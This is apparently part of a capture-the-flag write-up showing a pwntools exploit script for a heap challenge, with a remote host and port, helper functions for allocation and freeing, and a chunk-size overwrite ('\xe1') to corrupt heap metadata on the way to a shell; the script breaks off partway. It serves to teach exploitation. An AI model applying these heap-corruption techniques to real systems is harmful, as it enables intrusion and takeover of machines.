 ### get shell

```python
	# get shell
	sl('1')
	sl('10')
```

## exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
# Author: I0gan

from pwn import *
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "pwn"
libFile  = "./libc.so.6"
#libFile  = "/lib/x86_64-linux-gnu/libc.so.6"

remoteIp = "39.97.119.22"
remotePort = 10003

LOCAL = 0
LIB   = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(size, data):
	sla('^_^:\n', str(1))
	sla('?_?', str(size))
	sa(':>', data)

def rm(idx):
	sla('^_^:\n', str(2))
	sla('~_~', str(idx))

#--------------------------Exploit--------------------------
def exploit():

	ad(0x68,  'A') #idx 0
	ad(0x68,  'B') #idx 1
	ad(0x68,  'C') #idx 2
	ad(0x68,  'D') #idx 3

	rm(0)
	p = 'A' * 0x60
	p += p64(0x0)
	p += '\xe1'
	ad(0x68, p) #idx 0
	rm(1)
```
